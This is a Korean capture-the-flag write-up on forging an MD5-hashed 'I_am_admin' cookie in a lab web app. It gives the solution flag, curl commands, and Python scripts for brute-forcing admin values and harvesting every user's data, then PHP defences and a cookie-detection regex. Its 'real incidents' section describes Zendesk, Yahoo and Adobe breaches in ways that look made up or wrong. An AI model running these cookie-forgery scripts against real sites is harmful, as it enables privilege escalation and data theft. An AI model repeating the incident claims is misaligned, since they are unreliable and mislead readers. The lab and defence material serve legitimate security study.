





# Breach #12: 쿠키 토큰 조작

## 취약점 개요

**취약점 유형**: 안전하지 않은 직접 객체 참조 (IDOR), 클라이언트 측 보안 제어
**위험도**: 치명적
**공격 벡터**: 쿠키 조작, 권한 상승

애플리케이션이 관리자 권한을 결정하기 위해 MD5 해시가 포함된 클라이언트 측 쿠키 `I_am_admin`을 사용합니다. 쿠키 값이 서버에서 제대로 검증되지 않고 약한 해싱을 사용하므로, 공격자가 이를 조작하여 무단 관리자 접근 권한을 얻을 수 있습니다.

## 취약점 발견 과정

### 1단계: 관리자 쿠키 식별
**URL**: `http://192.168.64.2/`

브라우저 개발자 도구 열기 → Application 탭 → Cookies 섹션

**발견된 쿠키**:
- **이름**: `I_am_admin`
- **값**: `68934a3e9455fa72420237eb05902327`



### 2단계: 쿠키 값 분석

값이 해시처럼 보입니다. MD5인지 테스트:

```bash
echo -n "false" | md5sum
# 출력: 68934a3e9455fa72420237eb05902327
```

**발견**: 쿠키 값은 `MD5("false")`입니다!

이것은:
- 애플리케이션이 관리자 상태를 단순한 boolean으로 저장
- MD5로 해싱 (약함, salt 없음)
- 해시가 클라이언트 측에 저장 (쉽게 수정 가능)

### 3단계: "true"의 MD5 생성

```bash
echo -n "true" | md5sum
# 출력: b326b5062b2f0e69046810717534cb09
```





### 4단계: 쿠키 수정

**방법 1: 브라우저 DevTools 사용**
1. DevTools 열기 → Application → Cookies
2. `I_am_admin` 값을 더블 클릭
3. `68934a3e9455fa72420237eb05902327`에서 `b326b5062b2f0e69046810717534cb09`로 변경
4. 페이지 새로고침



**방법 2: curl 사용**
```bash
curl 'http://192.168.64.2/' \
     -b 'I_am_admin=b326b5062b2f0e69046810717534cb09'
```

### 5단계: 플래그 획득

**응답**:
```html
<script>alert('Good job! Flag : df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3');</script>
```



**플래그 획득**: `df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3`

## 취약점 상세 설명

### 무엇이 잘못되었나?

#### 1. 클라이언트 측 보안 제어
```php
// 취약한 코드 (가설)
<?php
$is_admin = $_COOKIE['I_am_admin'];

// 서버 측 검증 없음!
if ($is_admin == md5('true')) {
    // 관리자 접근 권한 부여
    showAdminPanel();
}
?>
```

**문제점**:
- 클라이언트 제공 데이터 신뢰
- 서버 측 세션 관리 없음
- Salt 없는 약한 해싱 (MD5)
- 예측 가능한 값 ("true", "false")

#### 2. 약한 암호화
MD5는 암호학적으로 깨짐:
- **빠른 계산**: 초당 수십억 개의 해시
- **Salt 없음**: 동일한 입력은 항상 동일한 해시 생성
- **레인보우 테이블**: 일반적인 값에 대한 사전 계산된 해시
- **충돌 공격**: 동일한 해시를 가진 두 입력을 찾기 쉬움

#### 3. 안전하지 않은 설계
```
┌─────────────────┐         ┌─────────────────┐
│   브라우저       │         │   서버          │
│                 │────────>│                 │
│ I_am_admin=     │ Cookie  │ if cookie ==    │
│ MD5("true")     │         │   MD5("true")   │
│ ❌ 수정 가능    │         │   ✅ 권한 부여  │
└─────────────────┘         └─────────────────┘

클라이언트가 권한 부여를 제어!
```

### 왜 이것이 치명적인가?

#### 1. 권한 상승
- 일반 사용자 → 몇 초 만에 관리자
- 인증 필요 없음
- 감사 추적 없음

#### 2. 완전한 시스템 손상
관리자 접근 권한으로:
- 모든 데이터 보기/수정
- 레코드 삭제
- 새 관리자 계정 생성
- 민감한 기능 접근

#### 3. 예측 가능한 값
일반적인 약한 쿠키 값:
```
MD5("false")         = 68934a3e9455fa72420237eb05902327
MD5("true")          = b326b5062b2f0e69046810717534cb09
MD5("0")             = cfcd208495d565ef66e7dff9f98764da
MD5("1")             = c4ca4238a0b923820dcc509a6f75849b
MD5("admin")         = 21232f297a57a5a743894a0e4a801fc3
MD5("administrator") = 200ceb26807d6bf99fd6f4f0d1ca54d4
```

## 공격 시나리오

### 시나리오 1: 직접 MD5 조작
```bash
# "true"의 MD5 생성
echo -n "true" | md5sum

# 수정된 쿠키로 접근
curl 'http://192.168.64.2/' \
     -b 'I_am_admin=b326b5062b2f0e69046810717534cb09'
```

**영향**: 즉시 관리자 접근

### 시나리오 2: 세션 하이재킹
```bash
# 관리자 세션 쿠키 탈취
document.cookie
# I_am_admin=b326b5062b2f0e69046810717534cb09

# 탈취한 쿠키 사용
curl 'http://192.168.64.2/admin' \
     -b 'I_am_admin=b326b5062b2f0e69046810717534cb09'
```

**영향**: 관리자 사용자 사칭

### 시나리오 3: 자동화 공격
```python
import requests
import hashlib

# 일반적인 관리자 값
admin_values = ['true', 'True', '1', 'yes', 'admin', 'administrator']

for value in admin_values:
    cookie_value = hashlib.md5(value.encode()).hexdigest()
    response = requests.get(
        'http://192.168.64.2/',
        cookies={'I_am_admin': cookie_value}
    )
    if 'admin' in response.text.lower():
        print(f"Admin access with: {value} -> {cookie_value}")
        break
```

**영향**: 자동화된 권한 상승

### 시나리오 4: 레인보우 테이블 공격
```bash
# MD5용 레인보우 테이블 다운로드
wget https://crackstation.net/files/crackstation.txt.gz

# 해시 조회
echo "68934a3e9455fa72420237eb05902327" | \
     hashcat -m 0 -a 0 crackstation.txt

# 결과: false
```

**영향**: 모든 salt 없는 MD5 쿠키 값 크래킹

### 시나리오 5: 대량 계정 탈취
```python
import requests
import hashlib

# 관리자 쿠키 생성
admin_cookie = hashlib.md5('true'.encode()).hexdigest()

# 모든 사용자 계정 탈취
session = requests.Session()
session.cookies.set('I_am_admin', admin_cookie)

# 관리자 페이지 접근
users = session.get('http://192.168.64.2/admin/users').json()

for user in users:
    # 각 사용자의 데이터 접근
    user_data = session.get(f'http://192.168.64.2/admin/user/{user["id"]}')
    print(f"Compromised: {user['email']}")
```

**영향**: 모든 사용자 계정 손상

## 방어 방법

### 1. 서버 측 세션 관리

```php
<?php
session_start();

// 로그인 프로세스
if (validateCredentials($username, $password)) {
    // 서버 측에 민감한 데이터 저장
    $_SESSION['user_id'] = $user_id;
    $_SESSION['is_admin'] = checkAdminStatus($user_id);

    // 안전한 세션 토큰 생성
    $token = bin2hex(random_bytes(32));
    $_SESSION['token'] = $token;

    // 안전한 쿠키 속성 설정
    setcookie('session_token', $token, [
        'httponly' => true,  // JavaScript 접근 방지
        'secure' => true,    // HTTPS만
        'samesite' => 'Strict' // CSRF 보호
    ]);
}

// 권한 부여 확인
function isAdmin() {
    // 서버 측 세션에서만 확인
    return isset($_SESSION['is_admin']) && $_SESSION['is_admin'] === true;
}
?>
```

### 2. 서명된 쿠키/JWT 사용

```php
<?php
// 비밀 키로 쿠키 서명
function signCookie($data, $secret) {
    $json = json_encode($data);
    $signature = hash_hmac('sha256', $json, $secret);
    return base64_encode($json) . '.' . $signature;
}

// 서명된 쿠키 검증
function verifyCookie($cookie, $secret) {
    list($data_b64, $signature) = explode('.', $cookie);
    $data = base64_decode($data_b64);
    $expected_signature = hash_hmac('sha256', $data, $secret);

    // 타이밍 공격 방지를 위해 hash_equals 사용
    if (!hash_equals($expected_signature, $signature)) {
        throw new Exception('유효하지 않은 서명');
    }

    return json_decode($data, true);
}

// 사용
$secret = getenv('SECRET_KEY'); // 환경 변수에서
$cookie = signCookie(['user_id' => 123, 'is_admin' => false], $secret);
setcookie('auth', $cookie, ['httponly' => true, 'secure' => true]);
?>
```

### 3. 적절한 인증 구현

```php
<?php
class AuthenticationManager {
    private $db;
    private $secret;

    public function __construct($db, $secret) {
        $this->db = $db;
        $this->secret = $secret;
    }

    public function login($username, $password) {
        $user = $this->db->getUserByUsername($username);

        // 비밀번호 확인
        if (!$user || !password_verify($password, $user['password_hash'])) {
            throw new Exception('유효하지 않은 자격 증명');
        }

        // 안전한 세션 생성
        session_regenerate_id(true); // 세션 고정 공격 방지
        $_SESSION['user_id'] = $user['id'];
        $_SESSION['is_admin'] = $user['is_admin'];
        $_SESSION['login_time'] = time();

        // 안전한 쿠키 설정
        $token = $this->generateSecureToken();
        $_SESSION['token'] = $token;

        setcookie('session_token', $token, [
            'httponly' => true,      // XSS 방지
            'secure' => true,        // HTTPS만
            'samesite' => 'Strict'   // CSRF 보호
        ]);

        return true;
    }

    public function isAuthenticated() {
        if (!isset($_SESSION['user_id'], $_SESSION['token'])) {
            return false;
        }

        // 세션 타임아웃 확인
        if (time() - $_SESSION['login_time'] > 3600) { // 1시간
            $this->logout();
            return false;
        }

        return true;
    }

    public function isAdmin() {
        return $this->isAuthenticated() &&
               isset($_SESSION['is_admin']) &&
               $_SESSION['is_admin'] === true;
    }

    private function generateSecureToken() {
        return bin2hex(random_bytes(32)); // 64자 토큰
    }

    public function logout() {
        session_destroy();
        setcookie('session_token', '', time() - 3600);
    }
}
?>
```

### 4. 안전한 쿠키 속성 사용

```php
<?php
session_set_cookie_params([
    'lifetime' => 0,           // 세션 쿠키
    'path' => '/',
    'domain' => '.example.com',
    'secure' => true,          // HTTPS만
    'httponly' => true,        // JavaScript 접근 불가
    'samesite' => 'Strict'     // CSRF 보호
]);

session_start();
?>
```

**쿠키 속성 설명**:
- **httponly**: JavaScript로 쿠키 접근 방지 (XSS 공격 완화)
- **secure**: HTTPS 연결에서만 쿠키 전송
- **samesite**:
  - `Strict`: 같은 사이트 요청에서만 쿠키 전송
  - `Lax`: GET 요청에서만 쿠키 전송
  - `None`: 모든 요청에서 쿠키 전송 (비권장)

### 5. 강력한 해싱 구현

```php
<?php
// 비밀번호 해싱에 bcrypt 사용
$password_hash = password_hash($password, PASSWORD_BCRYPT, ['cost' => 12]);

// 비밀번호 확인
if (password_verify($input_password, $password_hash)) {
    // 비밀번호 맞음
}

// 토큰에는 암호학적으로 안전한 난수 사용
$token = bin2hex(random_bytes(32)); // 64자
$token_hash = hash('sha256', $token); // SHA-256, MD5 아님

// Argon2 사용 (더 안전)
$password_hash = password_hash($password, PASSWORD_ARGON2ID);
?>
```

### 6. 데이터베이스 세션 저장

```php
<?php
class DatabaseSessionHandler implements SessionHandlerInterface {
    private $db;

    public function read($session_id) {
        $stmt = $this->db->prepare(
            'SELECT data FROM sessions
             WHERE id = ? AND expires > NOW()'
        );
        $stmt->execute([$session_id]);
        return $stmt->fetchColumn() ?: '';
    }

    public function write($session_id, $data) {
        $stmt = $this->db->prepare(
            'REPLACE INTO sessions (id, data, expires)
             VALUES (?, ?, DATE_ADD(NOW(), INTERVAL 1 HOUR))'
        );
        return $stmt->execute([$session_id, $data]);
    }

    public function destroy($session_id) {
        $stmt = $this->db->prepare('DELETE FROM sessions WHERE id = ?');
        return $stmt->execute([$session_id]);
    }

    public function gc($max_lifetime) {
        $stmt = $this->db->prepare('DELETE FROM sessions WHERE expires < NOW()');
        return $stmt->execute();
    }

    // 기타 메서드 구현...
}

// 커스텀 세션 핸들러 사용
$handler = new DatabaseSessionHandler($db);
session_set_save_handler($handler, true);
session_start();
?>
```

### 7. 로깅 및 모니터링

```php
<?php
function logSecurityEvent($event_type, $details) {
    $log_entry = [
        'timestamp' => date('Y-m-d H:i:s'),
        'event_type' => $event_type,
        'ip' => $_SERVER['REMOTE_ADDR'],
        'user_agent' => $_SERVER['HTTP_USER_AGENT'],
        'details' => $details
    ];

    // 데이터베이스에 로그
    $db->insert('security_logs', $log_entry);

    // 심각한 이벤트는 관리자에게 알림
    if (in_array($event_type, ['privilege_escalation', 'multiple_failed_logins'])) {
        notifyAdministrators($log_entry);
    }
}

// 의심스러운 쿠키 감지
if (isset($_COOKIE['I_am_admin'])) {
    $cookie_value = $_COOKIE['I_am_admin'];

    // MD5 해시 패턴 감지
    if (preg_match('/^[a-f0-9]{32}$/', $cookie_value)) {
        logSecurityEvent('suspicious_cookie', [
            'cookie' => 'I_am_admin',
            'value' => $cookie_value
        ]);

        // 쿠키 무효화
        setcookie('I_am_admin', '', time() - 3600);
    }
}
?>
```

## 실제 영향 사례

### 유사 취약점 사례

#### 1. Zendesk (2016)
**취약점**: 쿠키 조작으로 계정 탈취
**영향**: 수백만 고객 계정 위험
**원인**: 약한 세션 토큰 생성
**해결**: 강력한 토큰 생성 및 서버 측 검증 강화

#### 2. Yahoo (2014)
**취약점**: 약한 쿠키 암호화로 세션 하이재킹 허용
**영향**: 수억 계정 손상
**원인**: 예측 가능한 세션 ID
**해결**: 세션 관리 시스템 전면 개편

#### 3. Adobe (2013)
**취약점**: 예측 가능한 세션 토큰으로 대량 손상
**영향**: 3백만 사용자 계정 노출
**원인**: 순차적 세션 ID 생성
**해결**: 암호학적으로 안전한 난수 사용

#### 4. Various PHP Applications
**취약점**: `is_admin=1` 같은 쿠키에 직접 저장
**영향**: 즉시 권한 상승
**원인**: 클라이언트 측 보안 제어 의존
**해결**: 서버 측 세션으로 이전

### 결과

- **권한 상승**: 일반 사용자 → 관리자
- **데이터 유출**: 모든 사용자 데이터 접근
- **시스템 손상**: 애플리케이션 완전 제어
- **평판 손상**: 사용자 신뢰 상실
- **컴플라이언스 위반**: GDPR, PCI-DSS 위반

## 보안 모범 사례

### OWASP 권장사항

1. **클라이언트 입력을 절대 신뢰하지 말 것**: 모든 클라이언트 데이터는 잠재적으로 악의적
2. **서버 측 세션**: 민감한 데이터는 서버 측에만 저장
3. **강력한 암호화**: 현대적인 알고리즘 사용 (bcrypt, Argon2)
4. **안전한 쿠키 속성**: httpOnly, secure, SameSite
5. **세션 관리**: 적절한 타임아웃, 재생성, 검증

### 구현 체크리스트

#### 필수 항목
- [ ] 서버 측 세션 관리 사용
- [ ] 쿠키에 민감한 데이터 저장 금지
- [ ] 적절한 인증/권한 부여 구현
- [ ] 강력한 salted 해싱 사용 (bcrypt/Argon2)
- [ ] 안전한 쿠키 속성 설정 (httpOnly, secure, SameSite)
- [ ] 세션 타임아웃 및 재생성 구현

#### 보안 강화
- [ ] 상태 변경 작업에 CSRF 토큰 사용
- [ ] 의심스러운 활동에 대한 로그 및 모니터링
- [ ] 정기적인 보안 감사 및 침투 테스트
- [ ] 2FA(이중 인증) 구현
- [ ] 세션 고정 공격 방지
- [ ] 안전한 토큰 생성 (최소 32바이트 랜덤)

#### 모니터링
- [ ] 실패한 로그인 시도 추적
- [ ] 권한 상승 시도 감지
- [ ] 비정상적인 쿠키 값 모니터링
- [ ] 동시 세션 제한
- [ ] IP 기반 이상 탐지

## 참고 자료

- [OWASP - Session Management Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html)
- [CWE-807: Reliance on Untrusted Inputs in a Security Decision](https://cwe.mitre.org/data/definitions/807.html)
- [CWE-565: Reliance on Cookies without Validation](https://cwe.mitre.org/data/definitions/565.html)
- [OWASP Top 10 2021 - A01:2021 Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)

## 플래그

```
df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3
```
